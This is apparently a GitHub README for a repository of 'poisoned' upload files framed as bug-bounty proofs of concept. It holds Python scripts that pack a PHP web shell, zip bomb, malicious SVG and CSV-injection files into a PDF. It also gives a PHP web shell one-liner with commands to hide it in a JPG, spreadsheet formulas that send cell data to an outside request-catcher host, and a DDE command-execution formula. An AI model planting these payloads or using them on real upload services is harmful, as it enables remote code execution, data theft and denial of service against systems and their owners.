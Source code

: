 # Poison
This repo will consist of poisoned PDF, images, documents and pictures like those used by the North Korean APT's

## New additions due to new findings:
Like Polyglot extensions leading to OOB attacks and image processing bypasses on profile upload services.
shell.php.jpg and mal.csv.jpg DeadmanXXXII.pdf is brand new amd you need to be careful.

### DeadmanXXXII.pdf
This is a pdf created by two python scripts.
mintpdf.py
```python
from fpdf import FPDF

pdf = FPDF()
pdf.add_page()
pdf.set_font("Arial", size=12)
pdf.multi_cell(0, 10, "Hello if this is uploaded you have a critical vulnerability.\nContact BugCrowd and ask for DeadmanXXXII P1 dangerous file inclusion report.")
pdf.output("container.pdf")
```
and
printpdf.py
```python
import pikepdf

# Open existing PDF
pdf = pikepdf.open("container.pdf")

# Files to embed
files_to_embed = [
    "shell.php",
    "malicious.mp4",
    "poison_image.svg",
    "harmless.txt",
    "mal.csv",
    "zipbomb.py",
    "dangerous_bomb.zip",
    "test.sql"
]

# Attach each file
for f in files_to_embed:
    with open(f, "rb") as file_obj:
        pdf.attachments[f] = file_obj.read()

# Save output
pdf.save("DeadmanXXXII.pdf")
pdf.close()
```
inside the venv you see. Then if you nano the pdf to check you should see this.
![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Screenshot_20250822-085722.png)

Now all you need isnto be able to upload this and yoi have a dangerous file inclusion vulnerability. Specifically here make sure you don't just set off the zipbomb.py as it will activate the bomb.zip this is a memory overload attack and if your system doesn't jave the space you will crash. I wouldn't worry so much about the rest with this as it is.

### File: poison_image.svg
This is a basic example PoC of a svg image that forces a .txt download but is recognized by a server as a harmless blue blue square 🟦 like this one.
The .txt file in particular just states

```
You clicked my poison picture from while I was bug hunting.
This is harmless, it just forces this download of this.
Built by: DeadmanXXXII
```


The fact that you are able to read this means it worked and your server processes .svg as much as this format like .pdf is highly recognized for simplicity of business functions.
It's extremely dangerous.
.txt .png only in a secure environment 
.txt only in zero trust as you can re appendage later.

#### Why?

Simply because that could be disruption s+d.py in base64 and if you allow creation in your system as you haven't banned them and your cron policies are bad. You have about 3mins to check your last backup time and find that script, without responding to the request and packet floods thinking you are being Ddos'd when it activates before it erases upto 75% of all records on the device its managed to get hold of. By ten minutes if you haven't got a backup I hope your paper records are good.

This was a 🟦 and is now an actual picture to seem less conspicuous.


![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Nethinter-use-evidence.png)


### File: mal.csv

Description: This file is a Proof-of-Concept for a CSV Injection (Formula Injection) vulnerability. It contains specially crafted spreadsheet formulas designed to demonstrate two potential attack vectors:

Data Exfiltration/External Interaction: The =HYPERLINK formula attempts to force an outbound HTTP/S request to a controlled external server (https://deadmanxxxii.requestcatcher.com/ with commands ?data=\",A1)) and log?data=\"&A2&\"_\"&B2,\"Click for info\"). This proves that arbitrary external connections can be initiated from the victim's spreadsheet, allowing for potential data exfiltration or redirection to phishing sites.
Web Service Interaction: The =WEBSERVICE formula attempts to fetch data from an external URL, similarly confirming external connectivity and potential data leakage or interaction with attacker-controlled web services.
This if the request is made as is can be classified as an OOB attack.

### File: malicious.csv

Description: This file is a Proof-of-Concept for a CSV Injection (Formula Injection) vulnerability, focusing on internal formula execution and client-side command execution. It contains two primary malicious formulas:

Basic Formula Execution: The =2+2 formula demonstrates that the spreadsheet program is indeed interpreting and executing injected formulas, serving as a foundational test.
Client-Side Command Execution (DDE): The =CMD|' /C calc'!A0 formula attempts to execute an operating system command (specifically, opening the calculator on a Windows machine) via Dynamic Data Exchange (DDE). While modern spreadsheet programs often display security warnings for DDE, its attempted execution proves the potential for arbitrary command execution on the client's system.


### File: create_zip_bomb.py

Description: This Python script is a utility designed to generate a "zip bomb" file. A zip bomb (also known as a "decompression bomb") is a malicious archive that is very small in compressed size but expands to an extremely large uncompressed size when extracted. This property makes them dangerous for causing Denial of Service (DoS) attacks by exhausting a target system's disk space, memory, or CPU resources during decompression.

Functionality:
The script works by leveraging recursive compression:

Initial Dummy File: It first creates a highly compressible dummy file (e.g., filled with null bytes) of a specified size.
Layered Compression: It then iteratively compresses the previously created zip file into a new zip file for a specified number of "layers." This process, though simple, leads to an exponential increase in the theoretical uncompressed size with each added layer. The zipfile.ZIP_STORED method is used in the recursive steps to ensure the internal zip files are stored without re-compression, making the expansion effect dramatic.
Output: The final result is a small .zip file (e.g., dangerous_bomb.zip) that, when extracted by a target system, can expand to gigabytes or even terabytes, depending on the configured initial file size and number of layers.
Usage/Parameters:
The script's main function create_zip_bomb takes three key arguments:

initial_file_size_mb: The size (in megabytes) of the initial highly compressible dummy file.
num_layers: The number of times the recursive zipping process is performed. Each layer effectively multiplies the potential uncompressed size.
output_filename: The desired name for the generated zip bomb file (defaults to dangerous_bomb.zip).
Security Context & Purpose (PoC):
This script is intended as a Proof of Concept (PoC) tool for cybersecurity professionals to demonstrate the severe impact of file upload vulnerabilities, specifically Denial of Service through resource exhaustion. By generating a zip bomb, researchers can test a target application's resilience against such attacks, identifying weaknesses in:

File size limits (both compressed and uncompressed).
Decompression safeguards (e.g., sandboxing, memory/CPU limits for file processing).
Error handling and logging during unexpected resource consumption.
Example Configuration (as per the script):
The if __name__ == "__main__": block provides commented-out examples to generate zip bombs of varying uncompressed sizes. For instance, initial_mb = 100 and layers = 100 can create a zip bomb estimated to expand to approximately 100 GB.

Caution: This tool generates files that can cause significant disruption. It should only be used in controlled environments, with explicit authorization, and strictly within the scope of responsible disclosure or bug bounty programs.

### dangerous_bomb.zip

This is an output of the above script with parameters 2GBs and 20 Layers.

![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Screenshot_20250624-224947.png)



### malicious.mp4

This is a special crafted mp4 with an ffyp atom bomb. Its initial state of size is 74kb a small file with 128 mb dump. This can be increased quite drastically.


### test.sql


This is an osquery rule to check for RCE.
-- Description: This Osquery rule is a Proof of Concept (PoC) for Remote Code Execution.
-- It attempts to use the 'system()' table to execute an external command.
-- Successful execution will result in an HTTP callback to the specified Request Catcher URL,
-- proving the 'system' table is enabled and exploitable.

-- This rule is designed to run once and report its findings.

### embedded_shell.jpg

This is a PHP shell embedded through concatonate in a .jpg file.
The original image 134685209.jpg is a picture of my EHPT+ certificate with this embedded.

```php
<?php system($_GET['cmd']); ?>
```

I did this by saving the shellcode as shell.php 
I then used:

```bash
wget https://raw.githubusercontent.com/DeadmanXXXII/Curriculum-Vitae/main/134685209.jpg
```

to pull the image to my terminal.
Once here in the CLI I entered:

```bash
cat 134685209.jpg shell.php > embedded_shell.jpg
```
This then creates the file with the shellcode embed in its metadata.

### shell.php.jpg
This is simply a double extension to test upload defense mechanics.
The file contains the shell code:

```php
<?php system($_GET['cmd']); ?>
```



